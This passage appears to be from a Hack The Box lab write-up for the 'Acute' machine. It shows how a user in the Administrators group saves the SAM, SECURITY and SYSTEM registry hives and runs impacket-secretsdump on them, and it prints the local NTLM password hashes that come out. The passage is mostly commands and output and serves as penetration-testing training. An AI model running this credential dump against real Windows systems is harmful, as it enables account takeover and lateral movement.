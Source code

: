 

# Shell as `awallace` on `atsserver`

### Dump hash

Since `jmorgan` belongs to `Administrators` group, we can dump registry hive.

```powershell
C:\Users\jmorgan\Desktop>whoami /groups
whoami /groups

GROUP INFORMATION
-----------------

Group Name                                 Type             SID          Attributes                                                     
========================================== ================ ============ ===============================================================
Everyone                                   Well-known group S-1-1-0      Mandatory group, Enabled by default, Enabled group             
BUILTIN\Administrators                     Alias            S-1-5-32-544 Mandatory group, Enabled by default, Enabled group, Group owner
BUILTIN\Users                              Alias            S-1-5-32-545 Mandatory group, Enabled by default, Enabled group             
NT AUTHORITY\NETWORK                       Well-known group S-1-5-2      Mandatory group, Enabled by default, Enabled group             
NT AUTHORITY\Authenticated Users           Well-known group S-1-5-11     Mandatory group, Enabled by default, Enabled group             
NT AUTHORITY\This Organization             Well-known group S-1-5-15     Mandatory group, Enabled by default, Enabled group             
Authentication authority asserted identity Well-known group S-1-18-1     Mandatory group, Enabled by default, Enabled group             
Mandatory Label\High Mandatory Level       Label            S-1-16-12288  


C:\Users\jmorgan\Documents>reg save HKLM\SYSTEM SYSTEM.SAVE
reg save HKLM\SYSTEM SYSTEM.SAVE
The operation completed successfully.

C:\Users\jmorgan\Documents>reg save HKLM\SECURITY SECURITY.SAVE
reg save HKLM\SECURITY SECURITY.SAVE
The operation completed successfully.

C:\Users\jmorgan\Documents>reg save HKLM\SAM SAM.SAVE
reg save HKLM\SAM SAM.SAVE
The operation completed successfully.
```

Let's dump the hash using `impacket-secretsdump`.

```bash
┌──(kali㉿kali)-[~/htb/acute/hashdump]
└─$ impacket-secretsdump -sam SAM.SAVE -security SECURITY.SAVE -system SYSTEM.SAVE local
Impacket v0.10.0 - Copyright 2022 SecureAuth Corporation

[*] Target system bootKey: 0x44397c32a634e3d8d8f64bff8c614af7
[*] Dumping local SAM hashes (uid:rid:lmhash:nthash)
Administrator:500:aad3b435b51404eeaad3b435b51404ee:a29f7623fd11550def0192de9246f46b:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
WDAGUtilityAccount:504:aad3b435b51404eeaad3b435b51404ee:24571eab88ac0e2dcef127b8e9ad4740:::
Natasha:1001:aad3b435b51404eeaad3b435b51404ee:29ab86c5c4d2aab957763e5c1720486d:::
[*] Dumping cached domain logon information (domain/username:hash)
[*] Dumping LSA Secrets
```